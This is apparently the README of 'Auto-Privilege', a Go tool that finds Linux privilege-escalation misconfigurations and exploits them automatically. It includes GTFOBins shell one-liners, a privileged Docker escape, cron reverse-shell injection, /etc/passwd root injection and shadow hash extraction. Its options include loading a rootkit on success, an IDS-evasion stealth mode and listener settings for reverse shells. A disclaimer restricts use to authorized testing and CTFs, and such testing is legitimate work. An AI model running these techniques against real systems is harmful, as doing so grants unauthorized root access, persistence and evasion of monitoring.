

<div align="center">
  

  <a href="https://github.com/Ruby570bocadito/Auto-Privilege">
    
  </a>

  <br/>

  <p>
    
    
    
    
    
    
    
    
  </p>

  <br/>
</div>

# ⚠️ Ethical Warning

> **This tool is designed for authorized security testing, CTF competitions, and educational purposes only.**
>
> - Only use on systems you own or have explicit written permission to test
> - Misuse may violate local and international laws
> - The author is not responsible for any damage caused by misuse
>
> **You have been warned.**

---

# 🚀 Overview

**Auto-Privilege** is an automated Linux privilege escalation suite that scans a target system, identifies misconfigurations, and **automatically exploits them** to gain root access — all in a **single, statically-linked Go binary with zero dependencies**.

| Phase | Action | Description |
|-------|--------|-------------|
| **1. SCAN** | Passive discovery | 10+ vulnerability scanners probe the system (read-only) |
| **2. ENUMERATE** | Find → Exploit mapping | Matches findings against 60+ GTFOBins database |
| **3. EXPLOIT** | Auto-root | Executes safest → most aggressive vector until root |

---

# 🔢 Features

## 10+ Vulnerability Scanners

| # | Scanner | Detection | Risk |
|---|---------|-----------|------|
| 1 | **SUID Binaries** | Scans 10+ directories for SUID bit | Low |
| 2 | **Sudo Misconfig** | Parses `sudo -l`, finds NOPASSWD entries | Low |
| 3 | **Writable Cron** | Checks cron dirs & referenced scripts (world-writable) | Medium |
| 4 | **Docker Breakout** | Detects docker group membership, suggests escape | High |
| 5 | **Capabilities** | Reads `/proc/self/status`, finds `cap_setuid`/`cap_sys_ptrace` | Medium |
| 6 | **NFS no_root_squash** | Parses `/etc/exports`, finds exploitable exports | High |
| 7 | **Writable PATH** | Checks PATH directories for world-writable locations | Low |
| 8 | **Systemd Services** | Scans `/etc/systemd/system` for writable service files | Medium |
| 9 | **/etc/passwd** | Checks if world-writable, injects root user | Critical |
| 10 | **/etc/shadow** | Checks readability, cracks root hash | Critical |
| 11 | **Kernel Info** | Grabs kernel version, flags known CVEs (6 CVEs: PwnKit, Baron Samedit, PolaKit, StackRot, nf_tables UAF, packet socket UAF) | Medium |
| 12 | **Writable Scripts** | Detects world-writable shell scripts in cron/systemd | Medium |

## Escalation Techniques

| Technique | How It Works | Auto-Exploit | Risk |
|-----------|-------------|:---:|:----:|
| **SUID GTFOBins** | Spawn privileged shell via SUID binary (e.g., `python -c 'import os; os.execl("/bin/sh", "sh")'`) | ✅ | 🟢 SAFE |
| **Sudo NOPASSWD** | `sudo` via GTFOBins without password | ✅ | 🟢 SAFE |
| **Cron Injection** | Overwrite writable cron script with reverse shell | ✅ | 🟡 LOW |
| **Docker Escape** | `docker run -v /:/mnt --privileged` | ✅ | 🟡 MEDIUM |
| **Capabilities** | `cap_setuid+ep` binary → setuid(0) | ✅ | 🟡 MEDIUM |
| **NFS no_root_squash** | Mount export as root, write SUID binary | ✅ | 🟡 MEDIUM |
| **passwd Injection** | Append root user with known hash | ✅ | 🔴 HIGH |
| **shadow Cracking** | Read hash → muestra hash root para crackear offline | ⚠️ Detect + show | 🔴 HIGH |
| **PATH Hijack** | Place malicious binary in writable PATH dir | ✅ | 🟡 MEDIUM |
| **Systemd Hijack** | Replace writable service ExecStart with payload | ✅ | 🟡 MEDIUM |

---

# 📦 Quick Start

### Installation

```bash
# Option A: Go install (requires Go 1.26+)
go install github.com/Ruby570bocadito/Auto-Privilege@latest

# Option B: Git clone & build
git clone https://github.com/Ruby570bocadito/Auto-Privilege.git
cd Auto-Privilege
go build -o Auto-Privilege .

# Option C: Download pre-built binary from Releases
```

### Basic Usage

```bash
# Scan only (safe, read-only)
./Auto-Privilege

# Auto-exploit found vectors
./Auto-Privilege --exploit

# Auto-exploit with risk limit
./Auto-Privilege --exploit --risk=medium

# Specific vectors only
./Auto-Privilege --vector=suid,sudo,cron

# JSON output for automation
./Auto-Privilege --json

# Quiet mode (exit code: 0=root, 1=fail)
./Auto-Privilege --quiet
```

---

# 🧠 Architecture



## File Structure

```
Auto-Privilege/
├── main.go                 CLI entry + orchestration
├── scanner.go              10+ vulnerability scanners
├── enumerate.go            Findings → exploit vector mapping
├── exploit.go              Exploitation engine (safe→danger)
├── gtfobins.go             Embedded GTFOBins database (~60 binaries)
├── gtfobins_update.go      GTFOBins updater from upstream
├── logger.go               Logging and output formatting
├── universe.go             Types, constants, formatting
├── autoprivilege_test.go        Unit tests (9 tests)
├── docker/
│   ├── Dockerfile.vulnerable    Target with 10 deliberate flaws
│   ├── Dockerfile.clean         Secure baseline system
│   ├── Dockerfile.edgecases     Edge case scenarios
│   ├── docker-compose.yml       Test network
│   └── test_runner.sh           Automated test runner
└── README.md
```

---

# 🐳 Docker Testing

```bash
# Build all images
cd docker
docker compose build

# Start test network (vulnerable + clean + edgecases)
docker compose up -d

# Run Auto-Privilege on vulnerable target
docker exec autoprivilege-vulnerable ./Auto-Privilege --exploit

# Run on clean system (should find minimal vectors)
docker exec autoprivilege-clean ./Auto-Privilege

# Run edge case scenarios
docker exec autoprivilege-edgecases ./Auto-Privilege --vector=sudo

# Full test suite
./docker/test_runner.sh
```

---

# 🎯 GTFOBins Database

**60+ binaries** with exploitation commands, **embedded in the binary**. Zero network calls at runtime. Works air-gapped.

<details>
<summary><b>Click to expand — all supported binaries</b></summary>

**Shell interpreters (SUID):** python, python2, python3, python3.8-3.13, perl, perl5, php, php5-8.2, ruby, ruby2-3, lua, lua5.3-5.4, node, nodejs, bash, dash, zsh, ksh, fish, sh

**Sudo-capable binaries:** find, vim, vi, less, more, man, awk, gawk, nawk, sed, gdb, nmap, tcpdump, tar, zip, unzip, rsync, scp, socat, env, nice, timeout, stdbuf, watch, make, pip, pip3, npm, gem, git, ssh, docker, lxc, apache2, cpan, ed, ex, ftp, wall, systemctl, journalctl, mysql, psql, sqlite3

</details>

---

# ⚡ All Commands

| Command | Description |
|---------|-------------|
| `./Auto-Privilege` | Scan only (no exploit) |
| `./Auto-Privilege --exploit` | Auto-exploit safest vector first |
| `./Auto-Privilege --exploit --risk=safe` | Only SAFE risk vectors |
| `./Auto-Privilege --exploit --risk=danger` | Everything (including dangerous) |
| `./Auto-Privilege --vector=suid,sudo,cron` | Specific vectors only |
| `./Auto-Privilege --exploit --one-shot` | Stop after first success |
| `./Auto-Privilege --json` | Machine-readable JSON output |
| `./Auto-Privilege --quiet` | Exit code only (0=root, 1=fail) |
| `./Auto-Privilege --rooteame ./rootkit.ko` | Load rootkit on success |
| `./Auto-Privilege --stealth` | Slow scan (evades IDS) |
| `./Auto-Privilege --dry-run` | Scan & enumerate only, no exploitation |
| `./Auto-Privilege --update-gtfobins` | Update embedded GTFOBins database |
| `./Auto-Privilege --lhost 10.0.0.1` | Set listener IP for reverse shells |
| `./Auto-Privilege --lport 4444` | Set listener port for reverse shells |
| `./Auto-Privilege --log json` | JSON log format (default: text) |

---

# 📊 Risk Levels

| Level | Examples | Auto-Exploit? | FS Changes? |
|-------|----------|:---:|:---:|
| 🟢 **SAFE** | python SUID → shell | ✅ Yes | No |
| 🟡 **LOW** | find SUID, awk sudo | ✅ Yes | Minor |
| 🟠 **MEDIUM** | cap_sys_ptrace, cron inject | ⚠️ Optional | May trigger alerts |
| 🔴 **HIGH** | passwd injection, cron, docker | ⚠️ Optional | Yes |
| 💀 **DANGER** | shadow overwrite, kernel exploits | ✋ Manual only | Yes, may crash |

---

<div align="center">
  
  <br/><br/>
  <sub>Built with ❤️ by <a href="https://github.com/Ruby570bocadito">Ruby570bocadito</a></sub>
  <br/>
  <sub>Formerly known as <strong>Peekaboo</strong> — Now <strong>Auto-Privilege</strong></sub>
  <br/><br/>
  
  
  
  
  <br/><br/>
  <sub>© 2026 Ruby570bocadito. MIT License.</sub>
</div>
